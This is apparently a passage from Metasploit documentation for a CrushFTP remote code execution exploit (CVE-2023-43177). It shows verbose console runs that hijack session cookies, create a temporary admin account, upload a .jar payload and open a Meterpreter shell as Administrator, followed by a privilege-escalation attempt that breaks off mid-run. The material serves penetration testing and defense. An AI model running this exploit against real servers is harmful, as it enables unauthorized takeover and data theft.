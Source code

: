 ```
[*] Cookie `1711115284720_HC3QlMqFXpqoY4iSEYzXUJOThVD7SX` is not valid
[*] Cookie `1711115283356_XYu6nd3kaL4zcjtOurFUNXknYprRmu` is not valid
[*] Checking if user crushadmin is an admin (cookie: 1711129187087_HwakJiMBcOOnUrEbe6hgbTuwqH7UVZ)
[+] It is an admin! Let's create a temporary admin account
[+] Administrator account created: username=f605ec51de, password=e5864cea12
[*] [do_login] Logging in with username `f605ec51de` and password `e5864cea12`
[*] Uploading payload .jar file `c32e.jar` to C:/Users/Public/c32e.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.54:4444
[*] Sending stage (57971 bytes) to 192.168.101.54
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_9bce0d5c08-js
[*] Meterpreter session 11 opened (10.4.227.33:57574 -> 192.168.101.54:4444) at 2024-03-22 18:46:25 +0100
[!] This exploit may require manual cleanup of 'C:/Users/Public/c32e.jar' on the target

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer        : SRV-STD
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/windows
```

#### With an active non-privileged session (privilege escalation)
```
msf exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.54 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130383791_FsmZz0FlGiiiYLl7V8qhICxtzfmQLN
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711130383791_FsmZz0FlGiiiYLl7V8qhICxtzfmQLN`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130385529_gfYIp4KJlwx6R5dy1JWcLhZZq9rOJS
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130385529_gfYIp4KJlwx6R5dy1JWcLhZZq9rOJS`
[*] Looking for the valid sessions
[*] Found 1 session cookies in the session file
[*] Cookie `1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T` is valid session (username: msfuser)
[*] Checking if user msfuser is an admin (cookie: 1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T)
[*] Could not find any admin session or the admin account creation failed
[*] Attempting privilege escalation with session cookie {:cookie=>"1711130148838_IQCFIDkPBuRaLAVq2KI9D1hAlfgh0T", :username=>"msfuser"}
[*] Looking for a directory with write permissions
[+] Found a writable directory: /home/readonly/writable1
[*] Uploading the egg file `4daf4b7923`
[*] Uploading `user.XML` to /home/readonly/writable1/user.XML
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130396337_KcYDlC0SZA19Z2uiWqw8dDyU0bVMO1
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Session file has not changed yet, skipping
[*] Logging out session cookie `1711130396337_KcYDlC0SZA19Z2uiWqw8dDyU0bVMO1`
[*] Egg not found, wait 30 seconds and try again... (Ctrl-C to exit)
```